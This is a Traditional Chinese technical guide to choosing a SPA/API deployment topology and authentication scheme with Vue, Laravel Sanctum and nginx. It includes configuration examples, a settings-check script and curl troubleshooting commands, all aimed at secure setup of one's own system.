


# 前後端分離架構選型

> [!abstract] 這篇你會學到
> - **三種部署拓撲**的完整比較
> - **★★★ 認證方式的選擇**（Cookie vs Token）
> - **決策樹**：什麼情況該選哪一種
> - **各拓撲的完整設定範例**
> - **★★ 常見的錯誤組合**（為什麼會踩坑）
> - 機關內部系統的**建議架構**

## 前置知識

- [[130-01-01-guide-部署-部署共通觀念]] — LXMP 架構全貌
- [[130-01-02-02-guide-Vue-SPA路由與API代理]] — API 代理的三種模式

---

## 三種部署拓撲 ★★★



| | **① 同源子路徑** ★★ | **② 子網域** | **③ 跨網域** |
| --- | --- | --- | --- |
| 前端網址 | `app.gov.tw/` | `app.gov.tw` | `app.gov.tw` |
| 後端網址 | `app.gov.tw/api/` | `api.gov.tw` | `other.tw/api` |
| **CORS** | **✓ 不需要** | 需要 | 需要 |
| **Cookie 認證** | **✓ 天然可用** | 需設 `SESSION_DOMAIN` | **✗ 極困難** |
| CSRF 防護 | ✓ 標準流程 | ✓ 可用 | ✗ 需改用 Token |
| **Preflight 開銷** | **✓ 無** | 有（可快取） | 有 |
| 憑證數量 | **1 張** | 1 張（含兩個 SAN）或 2 張 | 2 張 |
| 前後端獨立擴充 | ✗ 綁在一起 | ✓ | ✓ |
| 多前端共用 API | ✗ | **✓** | ✓ |
| **設定複雜度** | **★ 低** | ★★ 中 | ★★★ 高 |
| **適用** | **★★★ 內部系統、單一前端** | 需獨立擴充、多前端 | 第三方整合 |

---

## ★★★ 認證方式的選擇



> [!danger] Token 存哪裡是關鍵問題 ★★★
> ```
> ★★★ 「把 JWT 存在 localStorage」是最常見的錯誤建議
>
> localStorage / sessionStorage：
>   ✗✗✗ 【任何 JS 都讀得到】
>     → 一個 XSS 漏洞 = ★★★ token 被竊取
>     → 攻擊者可以在【任何地方】用那個 token
>       （不像 cookie 有 SameSite 保護）
>   ✗ 沒有自動過期機制
>   ✗ 沒有 HttpOnly / Secure / SameSite
>
> ★★ HttpOnly Cookie：
>   ✓✓ 【JS 完全讀不到】→ XSS 也偷不走
>   ✓ Secure：只在 HTTPS 送
>   ✓ SameSite：防 CSRF
>   ✓ 瀏覽器自動管理過期
>
> ★★★ 結論：
>   · 能用 Cookie 就用 Cookie（★ 同源或同 eTLD+1）
>   · 真的必須用 Token（手機 App、跨網域）
>     → ★ 存在記憶體（變數）+ refresh token 存 HttpOnly cookie
>     → ★★ 不要存 localStorage
> ```

| | **Sanctum Cookie（SPA）** ★★ | Sanctum Token | OAuth2 (Passport) |
| --- | --- | --- | --- |
| 適用 | **同源 / 同 eTLD+1 的 SPA** | 手機 App、第一方 API | 第三方應用 |
| 儲存位置 | **HttpOnly Cookie** ★★ | 客戶端自行保管 | 同左 |
| **XSS 竊取風險** | **★★ 極低** | ★★★ 高（若存 localStorage） | 高 |
| CSRF | 需要 CSRF token | 不需要 | 不需要 |
| 跨網域 | ✗ | ✓ | ✓ |
| 撤銷 | 刪 session | 刪 token 記錄 | revoke token |
| 複雜度 | ★ 低 | ★ 低 | ★★★ 高 |

---

## ① 同源子路徑（★★ 推薦）

```nginx
# ═══════════════════════════════════════════════════════
# /etc/nginx/sites-available/app.conf
# ★★ 一個網域、一張憑證、無 CORS
# ═══════════════════════════════════════════════════════
limit_req_zone $binary_remote_addr zone=app_general:10m rate=30r/s;
limit_req_zone $binary_remote_addr zone=app_login:10m   rate=5r/m;

server {
    listen 80;
    server_name app.example.gov.tw;
    location ^~ /.well-known/acme-challenge/ { root /var/www/certbot; }
    location / { return 301 https://$host$request_uri; }
}

server {
    listen 443 ssl;
    listen [::]:443 ssl;
    http2 on;
    server_name app.example.gov.tw;

    ssl_certificate         /etc/ssl/certs/app-fullchain.crt;
    ssl_certificate_key     /etc/ssl/private/app.key;
    ssl_trusted_certificate /etc/ssl/certs/ca-chain.crt;
    ssl_protocols           TLSv1.2 TLSv1.3;
    ssl_session_cache       shared:SSL:20m;
    ssl_session_tickets     off;

    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "SAMEORIGIN" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;

    client_max_body_size 20m;

    gzip on; gzip_static on; gzip_vary on;
    gzip_types text/css application/json application/javascript image/svg+xml font/woff2;

    # ═══════ ★★ 後端 API（★ 必須在最前面）═══════
    location ^~ /api/ {
        limit_req zone=app_general burst=50 nodelay;

        root /var/www/api/current/public;
        try_files $uri /index.php?$query_string;

        location ~ \.php$ {
            root /var/www/api/current/public;
            try_files $uri =404;                    # ★★★
            fastcgi_pass unix:/run/php/php8.3-fpm-api.sock;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $realpath_root$fastcgi_script_name;
            fastcgi_param DOCUMENT_ROOT   $realpath_root;
            fastcgi_param HTTPS on;                 # ★★★
            fastcgi_read_timeout 60s;
        }
    }

    # ═══════ ★★ Sanctum 的 CSRF 端點 ═══════
    location = /sanctum/csrf-cookie {
        root /var/www/api/current/public;
        try_files $uri /index.php?$query_string;
    }

    # ═══════ ★★ 登入端點嚴格限流 ═══════
    location ~ ^/api/(login|register|password/) {
        limit_req zone=app_login burst=5 nodelay;
        limit_req_status 429;
        root /var/www/api/current/public;
        try_files $uri /index.php?$query_string;
    }

    # ═══════ ★ Laravel 的上傳檔案 ═══════
    location ^~ /storage/ {
        alias /var/www/api/shared/storage/app/public/;
        try_files $uri =404;
        expires 7d;
        add_header Cache-Control "public, max-age=604800";
        add_header X-Content-Type-Options "nosniff" always;
        location ~ \.(php|phtml|phar)$ { deny all; }    # ★★★
    }

    # ═══════ ★★ 前端靜態資源 ═══════
    root /var/www/app/current/dist;
    index index.html;

    location ^~ /assets/ {
        try_files $uri =404;
        expires 1y;
        add_header Cache-Control "public, max-age=31536000, immutable";
        add_header X-Content-Type-Options "nosniff" always;
        access_log off;
        gzip_static on;
    }

    location = /index.html {
        expires -1;
        add_header Cache-Control "no-cache, no-store, must-revalidate" always;
        add_header X-Content-Type-Options "nosniff" always;
    }

    # ═══════ ★★ SPA fallback（★ 放最後）═══════
    location / {
        limit_req zone=app_general burst=50 nodelay;
        try_files $uri $uri/ /index.html;
    }

    # ═══════ 安全 ═══════
    location ~ /\.        { deny all; access_log off; }
    location ~ \.map$     { deny all; access_log off; }
}
```

```dotenv
# ★★ 前端 .env.production
VITE_API_BASE=/api                       # ★ 相對路徑（同源）
```

```dotenv
# ★★ Laravel .env
APP_URL=https://app.example.gov.tw
SESSION_DRIVER=redis
SESSION_SECURE_COOKIE=true
SESSION_SAME_SITE=lax
SESSION_DOMAIN=null                      # ★★ 同源時設 null（★ 只給當前網域）
SANCTUM_STATEFUL_DOMAINS=app.example.gov.tw
FRONTEND_URL=https://app.example.gov.tw
```

```typescript
// ★★ 前端的 API client（同源，最簡單）
import axios from 'axios';

export const api = axios.create({
  baseURL: import.meta.env.VITE_API_BASE || '/api',
  withCredentials: true,                 // ★★ 送 cookie
  headers: {
    'Accept': 'application/json',
    'X-Requested-With': 'XMLHttpRequest', // ★ 讓 Laravel 知道是 AJAX
  },
});

// ★★ Sanctum SPA 認證流程
export async function login(email: string, password: string) {
  // ★★★ ① 先取得 CSRF cookie
  await axios.get('/sanctum/csrf-cookie', { withCredentials: true });
  // ★ ② 再登入（axios 會自動從 XSRF-TOKEN cookie 讀出並放進 X-XSRF-TOKEN 標頭）
  return api.post('/login', { email, password });
}
```

> [!tip] 同源的四個好處 ★★
> ```
> ① ★★ 完全不需要 CORS 設定
>    → 少一整類的問題（preflight、credentials、標頭白名單）
>
> ② ★★ 少一次 preflight 往返
>    → 每個非簡單請求省下一次 OPTIONS（★ 延遲減半）
>
> ③ ★★★ Cookie 天然同源
>    → Sanctum 的 SPA 認證直接可用
>    → 不用煩惱 SameSite / SESSION_DOMAIN / withCredentials 的組合
>
> ④ ★ 只需要一張憑證、一個網域
>    → 憑證管理成本減半
> ```

---

## ② 子網域

```nginx
# ═══ 前端 ═══
server {
    listen 443 ssl;
    http2 on;
    server_name app.example.gov.tw;

    ssl_certificate     /etc/ssl/certs/wildcard-fullchain.crt;   # ★ 或含兩個 SAN
    ssl_certificate_key /etc/ssl/private/wildcard.key;

    root /var/www/app/current/dist;
    index index.html;

    location ^~ /assets/ {
        try_files $uri =404;
        expires 1y;
        add_header Cache-Control "public, max-age=31536000, immutable";
        add_header X-Content-Type-Options "nosniff" always;
    }
    location = /index.html {
        expires -1;
        add_header Cache-Control "no-cache, no-store, must-revalidate" always;
    }
    location / { try_files $uri $uri/ /index.html; }
}

# ═══ 後端 API ═══
server {
    listen 443 ssl;
    http2 on;
    server_name api.example.gov.tw;

    ssl_certificate     /etc/ssl/certs/wildcard-fullchain.crt;
    ssl_certificate_key /etc/ssl/private/wildcard.key;

    root /var/www/api/current/public;
    index index.php;

    # ★ API 不要被索引
    add_header X-Robots-Tag "noindex, nofollow" always;

    location / { try_files $uri $uri/ /index.php?$query_string; }

    location ~ \.php$ {
        try_files $uri =404;
        fastcgi_pass unix:/run/php/php8.3-fpm-api.sock;
        include fastcgi_params;
        fastcgi_param SCRIPT_FILENAME $realpath_root$fastcgi_script_name;
        fastcgi_param HTTPS on;
    }
    location ~ /\. { deny all; }
}
```

```dotenv
# ★★★ Laravel .env（子網域的關鍵設定）
APP_URL=https://api.example.gov.tw
FRONTEND_URL=https://app.example.gov.tw

SESSION_DRIVER=redis
SESSION_SECURE_COOKIE=true
SESSION_SAME_SITE=lax
SESSION_DOMAIN=.example.gov.tw           # ★★★ 開頭的點很關鍵！

SANCTUM_STATEFUL_DOMAINS=app.example.gov.tw
```

> [!danger] `SESSION_DOMAIN` 的點 ★★★
> ```
> SESSION_DOMAIN=example.gov.tw           ← ★ 沒有點
>   → 現代瀏覽器仍會當成 .example.gov.tw 處理
>   → ★ 但明確寫點更清楚，且相容性更好
>
> ★★★ SESSION_DOMAIN=.example.gov.tw     ← ✓ 有點
>   → cookie 對【所有子網域】有效
>     → app.example.gov.tw 與 api.example.gov.tw 共用
>
> ★★ 不設（null）的話：
>   → cookie 只對【簽發它的那個網域】有效
>     → api.gov.tw 設的 cookie，app.gov.tw 【看不到】
>       → ★★★ 登入後前端拿不到 session → 一直是未登入狀態
>
> ★★ 安全考量：
>   設成 .example.gov.tw 表示【所有子網域都看得到 cookie】
>   → ★ 若有一個不受信任的子網域（例如使用者可以自訂的），就有風險
>   → ★★ 內部系統通常可接受
> ```

```php
<?php
// ★★★ config/cors.php（子網域必須設定）
return [
    'paths' => ['api/*', 'sanctum/csrf-cookie', 'login', 'logout'],

    'allowed_methods' => ['*'],

    // ★★★ 明確列出（★ 不要用 '*'）
    'allowed_origins' => [
        env('FRONTEND_URL', 'https://app.example.gov.tw'),
    ],

    'allowed_origins_patterns' => [],

    'allowed_headers' => [
        'Accept', 'Content-Type', 'X-Requested-With',
        'X-XSRF-TOKEN', 'Authorization', 'X-CSRF-TOKEN',
    ],

    'exposed_headers' => [],

    'max_age' => 86400,                 // ★★ preflight 快取一天（★ 減少往返）

    // ★★★ 使用 cookie 認證時【必須】是 true
    'supports_credentials' => true,
];
```

> [!danger] `allowed_origins: ['*']` + `supports_credentials: true` 是無效的組合 ★★★
> ```
> ★★★ 瀏覽器規範明確禁止：
>   Access-Control-Allow-Origin: *
>   Access-Control-Allow-Credentials: true
>   → ★ 這個組合【瀏覽器會直接拒絕】
>
> 錯誤訊息：
>   The value of the 'Access-Control-Allow-Origin' header in the response
>   must not be the wildcard '*' when the request's credentials mode is 'include'.
>
> ★★ 必須明確列出來源：
>   'allowed_origins' => ['https://app.example.gov.tw'],
>
> ★ 多個環境：
>   'allowed_origins' => array_filter([
>       env('FRONTEND_URL'),
>       env('FRONTEND_URL_STAGING'),
>   ]),
> ```

```typescript
// ★★ 前端（子網域）
export const api = axios.create({
  baseURL: 'https://api.example.gov.tw',
  withCredentials: true,               // ★★★ 必須（否則不送 cookie）
  headers: { 'Accept': 'application/json' },
});

export async function login(email: string, password: string) {
  // ★★★ CSRF cookie 也要用完整網址
  await axios.get('https://api.example.gov.tw/sanctum/csrf-cookie', {
    withCredentials: true,
  });
  return api.post('/login', { email, password });
}
```

---

## ③ 跨網域（Token）

```
★★ 何時會用到：
  · 前端由別的單位/廠商託管
  · 手機 App
  · 開放 API 給第三方
  · ★ 前後端在不同的雲端服務
```

```php
<?php
// ★★ Sanctum API Token（第一方 API）
// routes/api.php
Route::post('/tokens/create', function (Request $request) {
    $request->validate([
        'email'       => ['required', 'email'],
        'password'    => ['required'],
        'device_name' => ['required', 'string', 'max:255'],
    ]);

    $user = User::where('email', $request->email)->first();

    // ★★ 統一的錯誤訊息（★ 不要洩漏帳號是否存在）
    if (!$user || !Hash::check($request->password, $user->password)) {
        throw ValidationException::withMessages([
            'email' => ['帳號或密碼錯誤'],
        ]);
    }

    // ★★ 限制 token 的權限與有效期
    return [
        'token' => $user->createToken(
            $request->device_name,
            ['orders:read', 'orders:write'],     // ★★ abilities
            now()->addDays(30),                   // ★★ 過期時間
        )->plainTextToken,
    ];
});

// ★ 撤銷
Route::post('/tokens/revoke', function (Request $request) {
    $request->user()->currentAccessToken()->delete();
    return response()->noContent();
})->middleware('auth:sanctum');
```

```php
<?php
// ★★ 檢查 token 的 ability
Route::get('/orders', function (Request $request) {
    if (!$request->user()->tokenCan('orders:read')) {
        abort(403);
    }
    return $request->user()->orders;
})->middleware('auth:sanctum');
```

```typescript
// ★★★ Token 的安全存放（★ 不要用 localStorage）
class TokenStore {
  // ★★ 存在【記憶體】—— 頁面重整就消失（★ 這是好事）
  #accessToken: string | null = null;

  set(token: string) { this.#accessToken = token; }
  get() { return this.#accessToken; }
  clear() { this.#accessToken = null; }
}

export const tokenStore = new TokenStore();

// ★★ 頁面重整後用 refresh token（存在 HttpOnly cookie）重新取得
export async function refreshAccessToken(): Promise<string | null> {
  try {
    // ★★ refresh token 在 HttpOnly cookie 裡，瀏覽器自動送
    const { data } = await axios.post('/auth/refresh', {}, { withCredentials: true });
    tokenStore.set(data.access_token);
    return data.access_token;
  } catch {
    tokenStore.clear();
    return null;
  }
}

// ★ 攔截器
api.interceptors.request.use((config) => {
  const t = tokenStore.get();
  if (t) config.headers.Authorization = `Bearer ${t}`;
  return config;
});

api.interceptors.response.use(
  (r) => r,
  async (error) => {
    if (error.response?.status === 401 && !error.config._retry) {
      error.config._retry = true;
      const t = await refreshAccessToken();
      if (t) {
        error.config.headers.Authorization = `Bearer ${t}`;
        return api(error.config);
      }
      // ★ refresh 也失敗 → 導向登入
      window.location.href = '/login';
    }
    return Promise.reject(error);
  },
);
```

> [!danger] 跨網域 + Cookie 的困難 ★★★
> ```
> ★★ 2020 年起，Chrome 對第三方 cookie 的限制：
>   · SameSite 預設是 Lax（★ 跨站請求不送 cookie）
>   · 要跨站送 cookie 必須：
>       SameSite=None; Secure
>   · ★★★ 但 Chrome 正在【逐步淘汰第三方 cookie】
>     → 這個做法【不能長期依賴】
>
> ★★ 所以真正跨網域的情況：
>   → ★ 用 Bearer Token（不要嘗試用 cookie）
>   → access token 存記憶體、refresh token 用 HttpOnly cookie（★ 同網域）
>   → 或完全用 token（★ 但要處理好儲存與過期）
> ```

---

## ★★ 常見的錯誤組合

> [!danger] 這些組合一定會出問題 ★★★
> ```
> ❌ ① 跨網域 + SESSION_DOMAIN 沒設
>    → 登入成功但前端一直是未登入
>    → ★ 因為 cookie 對前端網域無效
>
> ❌ ② allowed_origins: ['*'] + supports_credentials: true
>    → ★★★ 瀏覽器直接拒絕（規範禁止）
>
> ❌ ③ withCredentials: false + Cookie 認證
>    → 請求根本不帶 cookie → 一直 401
>
> ❌ ④ SESSION_SECURE_COOKIE=true + 走 HTTP
>    → cookie 完全不會被設定 → 登不進去
>
> ❌ ⑤ ★★ 缺少 HTTPS 三件套 + SESSION_SECURE_COOKIE=true
>    → Laravel 以為是 HTTP → 不設 Secure cookie → 同上
>
> ❌ ⑥ SANCTUM_STATEFUL_DOMAINS 沒包含前端網域
>    → Sanctum 不把它當成「有狀態」的請求
>      → ★★ 忽略 session，改用 token 驗證 → 一直 401
>
> ❌ ⑦ ★★ SPA fallback 放在 /api/ 之前
>    → API 請求被前端的 index.html 接走
>      → ★ 回傳 HTML 而不是 JSON
>
> ❌ ⑧ localStorage 存 JWT
>    → ★★★ XSS 就能偷走
> ```

```bash
#!/usr/bin/env bash
# /usr/local/bin/check-spa-arch —— 前後端架構設定檢查
set -uo pipefail
ENV="${1:-/var/www/api/shared/.env}"
FRONT="${2:-https://app.example.gov.tw}"
API="${3:-https://api.example.gov.tw}"
CFG="${4:-/var/www/api/current/config/cors.php}"

PASS=0; FAIL=0
p(){ printf '  \033[32m✓\033[0m %s\n' "$1"; PASS=$((PASS+1)); }
f(){ printf '  \033[31m✗✗\033[0m %s\n' "$1"; FAIL=$((FAIL+1)); }
w(){ printf '  \033[33m⚠\033[0m %s\n' "$1"; }

echo "═══ 前後端架構設定檢查 ═══"
echo "  前端：$FRONT"
echo "  後端：$API"

# ★★ 判斷是哪一種拓撲
FH=$(echo "$FRONT" | sed 's|https\?://||;s|/.*||')
AH=$(echo "$API"   | sed 's|https\?://||;s|/.*||')
if [ "$FH" = "$AH" ]; then
    TOPO="同源"
elif [ "${FH#*.}" = "${AH#*.}" ]; then
    TOPO="子網域"
else
    TOPO="跨網域"
fi
echo "  拓撲：★ $TOPO"

# ═══ 【1】Laravel 設定 ═══
echo -e "\n【1】Laravel .env"
grep -q '^SESSION_SECURE_COOKIE=true' "$ENV" && p "SESSION_SECURE_COOKIE=true" \
  || f "SESSION_SECURE_COOKIE 不是 true"

SD=$(grep '^SESSION_DOMAIN=' "$ENV" | cut -d= -f2- | tr -d '"')
case "$TOPO" in
  同源)
    [ -z "$SD" ] || [ "$SD" = null ] && p "SESSION_DOMAIN=null（同源正確）" \
      || w "SESSION_DOMAIN=$SD（同源時建議 null）" ;;
  子網域)
    if [[ "$SD" == .* ]]; then p "★★★ SESSION_DOMAIN=$SD（有前導點）"
    elif [ -n "$SD" ] && [ "$SD" != null ]; then w "SESSION_DOMAIN=$SD（★ 建議加前導點）"
    else f "★★★ SESSION_DOMAIN 未設定 —— 子網域無法共用 cookie"; fi ;;
  跨網域)
    w "跨網域建議改用 Bearer Token 而非 cookie" ;;
esac

SSD=$(grep '^SANCTUM_STATEFUL_DOMAINS=' "$ENV" | cut -d= -f2- | tr -d '"')
if echo "$SSD" | grep -q "$FH"; then
    p "★★ SANCTUM_STATEFUL_DOMAINS 包含 $FH"
else
    f "★★ SANCTUM_STATEFUL_DOMAINS 不含 $FH（=$SSD）"
fi

grep -qE '^SESSION_SAME_SITE=(lax|strict|none)' "$ENV" && \
  p "SESSION_SAME_SITE=$(grep '^SESSION_SAME_SITE=' "$ENV"|cut -d= -f2)" || \
  w "SESSION_SAME_SITE 未設定"

grep -qE '^SESSION_DRIVER=(redis|database)' "$ENV" && p "SESSION_DRIVER 可共享" \
  || w "SESSION_DRIVER 不是 redis/database（★ 多台時會有問題）"

# ═══ 【2】CORS ═══
echo -e "\n【2】CORS 設定"
if [ "$TOPO" = "同源" ]; then
    p "同源不需要 CORS"
elif [ -f "$CFG" ]; then
    if grep -qE "'allowed_origins'\s*=>\s*\[\s*'\*'" "$CFG"; then
        f "★★★ allowed_origins 是 '*'"
        grep -q "'supports_credentials' *=> *true" "$CFG" && \
          f "★★★★ '*' + supports_credentials=true —— 瀏覽器會直接拒絕"
    else
        p "allowed_origins 有明確列出"
        grep -A5 "'allowed_origins'" "$CFG" | grep -oE 'https://[^'\'']+' | sed 's/^/      /'
    fi
    grep -q "'supports_credentials' *=> *true" "$CFG" && \
      p "★★ supports_credentials=true（cookie 認證必須）" || \
      w "supports_credentials 不是 true（★ 用 cookie 認證時必須）"
fi

# ═══ 【3】實際的 HTTP 行為 ═══
echo -e "\n【3】★★ 實際驗證"

# ★ HTTPS 三件套
SEC=$(curl -s "$API/api/health" -H 'Accept: application/json' 2>/dev/null | \
      grep -oE '"secure":\s*(true|false)' | grep -oE 'true|false')
[ "$SEC" = true ] && p "★★★ request()->secure() = true" || \
  w "無法確認 request()->secure()（★ 需要一個 health 端點）"

# ★★ CSRF cookie
if [ "$TOPO" != "跨網域" ]; then
    H=$(curl -sI "$API/sanctum/csrf-cookie" --max-time 10)
    echo "$H" | grep -qi 'set-cookie:.*XSRF-TOKEN' && p "★★ /sanctum/csrf-cookie 有設 XSRF-TOKEN" \
      || f "★★ /sanctum/csrf-cookie 沒有設 cookie"
    echo "$H" | grep -qi 'set-cookie:.*[Ss]ecure' && p "★★ cookie 有 Secure 屬性" \
      || f "★★ cookie 沒有 Secure 屬性"
    echo "$H" | grep -qi 'set-cookie:.*HttpOnly' && p "★ session cookie 有 HttpOnly" \
      || w "檢查 session cookie 的 HttpOnly"
fi

# ★★ CORS preflight（非同源時）
if [ "$TOPO" != "同源" ]; then
    echo -e "\n  ── CORS preflight ──"
    PRE=$(curl -sI -X OPTIONS "$API/api/user" \
          -H "Origin: $FRONT" \
          -H 'Access-Control-Request-Method: GET' \
          -H 'Access-Control-Request-Headers: content-type,x-xsrf-token' --max-time 10)
    echo "$PRE" | grep -i 'access-control-' | sed 's/^/      /'

    echo "$PRE" | grep -qi "access-control-allow-origin: *$FRONT" && \
      p "★★ Allow-Origin 正確" || f "★★ Allow-Origin 不正確"
    echo "$PRE" | grep -qi 'access-control-allow-credentials: *true' && \
      p "★★ Allow-Credentials=true" || f "★★ Allow-Credentials 不是 true"
    echo "$PRE" | grep -qi 'access-control-allow-origin: *\*' && \
      f "★★★ Allow-Origin 是 '*'（與 credentials 衝突）"
fi

# ═══ 【4】前端 ═══
echo -e "\n【4】前端"
JS=$(curl -s "$FRONT/" 2>/dev/null | grep -oE '/assets/[^"]+\.js' | head -1)
if [ -n "$JS" ]; then
    C=$(curl -s "$FRONT$JS" 2>/dev/null)
    echo "$C" | grep -q 'localStorage.*[Tt]oken' && \
      f "★★★ 前端可能用 localStorage 存 token" || p "★★ 沒有發現 localStorage 存 token"
    echo "$C" | grep -q 'withCredentials' && p "有設定 withCredentials" \
      || w "沒有發現 withCredentials（★ cookie 認證需要）"
fi

echo -e "\n═══ ✓ $PASS  ✗ $FAIL ═══"
[ "$FAIL" -eq 0 ] || exit 1
```

---

## 決策：機關內部系統的建議 ★★

```
★★★ 對絕大多數的機關內部系統，建議：

  ① 拓撲：★★ 同源子路徑
     https://app.example.gov.tw/       → Vue SPA
     https://app.example.gov.tw/api/   → Laravel

  ② 認證：★★ Sanctum SPA（HttpOnly Cookie）
     · 最安全（XSS 偷不走）
     · 有 CSRF 防護
     · 設定最簡單

  ③ 前端：★ Vue SPA（不用 Nuxt SSR）
     · 內部系統不需要 SEO
     · 部署簡單很多（不用長駐 Node）

  ④ 網路：★★ 內網限制
     allow 10.0.0.0/8; deny all;

  ⑤ 憑證：內部 CA 簽發（★ 或公信 CA）

★★ 什麼時候才需要更複雜的架構：
  · 同一組 API 要給多個前端用 → 子網域
  · 有手機 App → 加上 Sanctum Token
  · 開放給其他機關/廠商 → OAuth2 (Passport)
  · 需要 SEO 的對外網站 → Nuxt SSR/SSG
```

---

## 常見錯誤與排錯

| 現象 | 原因 | 解法 |
| --- | --- | --- |
| **登入成功但仍是未登入** ★★★ | `SESSION_DOMAIN` 沒設（子網域） | 設 `.example.gov.tw` |
| **CORS：`Allow-Origin` 不能是 `*`** ★★★ | `'*'` + credentials | 明確列出來源 |
| **請求沒帶 cookie** ★★ | `withCredentials: false` | 設 `true` |
| **一直 401** ★★★ | `SANCTUM_STATEFUL_DOMAINS` 沒含前端 | 加上前端網域 |
| **cookie 沒被設定** ★★ | `SESSION_SECURE_COOKIE=true` 但走 HTTP | 全站 HTTPS + 三件套 |
| **API 回傳 HTML** ★★ | SPA fallback 在 `/api/` 之前 | `location ^~ /api/` 放前面 |
| **419 CSRF token mismatch** ★★ | 沒先呼叫 `/sanctum/csrf-cookie` | 登入前先呼叫 |
| **preflight 每次都發** ★ | `max_age` 太小 | 設 `86400` |
| **token 被 XSS 偷走** ★★★ | 存 localStorage | 改用 HttpOnly cookie 或記憶體 |
| 跨站 cookie 不送 ★★ | SameSite=Lax | 改用 Token（★ 不要依賴 SameSite=None） |
| 多台伺服器 session 不共享 ★★ | 檔案式 session | `SESSION_DRIVER=redis` |

### 排查

```bash
FRONT=https://app.example.gov.tw
API=https://api.example.gov.tw

# 【1】★★ 拓撲與 cookie
$ curl -sI "$API/sanctum/csrf-cookie" | grep -i set-cookie
set-cookie: XSRF-TOKEN=eyJpdiI6...; expires=...; path=/; domain=.example.gov.tw; secure; samesite=lax
#                                                        ^^^^^^^^^^^^^^^^^^^^^ ★★ 確認 domain
#                                                                              ^^^^^^ ★ Secure

# 【2】★★ CORS preflight
$ curl -sI -X OPTIONS "$API/api/user" \
    -H "Origin: $FRONT" \
    -H 'Access-Control-Request-Method: GET' \
    -H 'Access-Control-Request-Headers: content-type,x-xsrf-token' | \
  grep -i access-control
access-control-allow-origin: https://app.example.gov.tw       # ★★ 不能是 *
access-control-allow-credentials: true                         # ★★
access-control-allow-methods: GET, POST, PUT, DELETE, OPTIONS
access-control-max-age: 86400

# 【3】★★ 完整的登入流程模擬
$ COOKIE=/tmp/c.txt
$ curl -sc "$COOKIE" "$API/sanctum/csrf-cookie" -o /dev/null
$ XSRF=$(grep XSRF-TOKEN "$COOKIE" | awk '{print $7}' | python3 -c 'import sys,urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))')
$ curl -sb "$COOKIE" -c "$COOKIE" -X POST "$API/login" \
    -H "X-XSRF-TOKEN: $XSRF" \
    -H "Origin: $FRONT" \
    -H 'Accept: application/json' \
    -H 'Content-Type: application/json' \
    -d '{"email":"admin@example.gov.tw","password":"..."}' -w '\n%{http_code}\n'

# ★ 登入後測試
$ curl -sb "$COOKIE" "$API/api/user" -H 'Accept: application/json' | jq

# 【4】★ Laravel 的設定
$ php artisan config:show session | head -20
$ php artisan config:show cors
$ php artisan config:show sanctum

# 【5】★★ Nginx 的 location 順序
$ sudo nginx -T 2>/dev/null | sed -n '/server_name app.example.gov.tw/,/^}/p' | grep 'location'

# 【6】前端是否用 localStorage
$ curl -s "$FRONT/" | grep -oE '/assets/[^"]+\.js' | head -1 | \
    xargs -I{} curl -s "$FRONT{}" | grep -oE 'localStorage\.[a-zA-Z]+\([^)]*\)' | sort -u
```

---

## 安全性注意事項

> [!danger] 認證相關的三條紅線 ★★★
> ```
> ① ★★★ 不要把 token 存在 localStorage
>      → XSS 就能偷走 → 攻擊者在任何地方都能用
>      → ★ 用 HttpOnly cookie，或存記憶體 + refresh token 用 cookie
>
> ② ★★★ CORS 的 allowed_origins 不能是 '*'
>      → 配合 credentials 時瀏覽器會拒絕
>      → ★ 就算不用 credentials，'*' 也代表【任何網站都能呼叫你的 API】
>
> ③ ★★ SESSION_DOMAIN 設太寬
>      → .gov.tw 會讓【所有 .gov.tw 的網站】看到 cookie
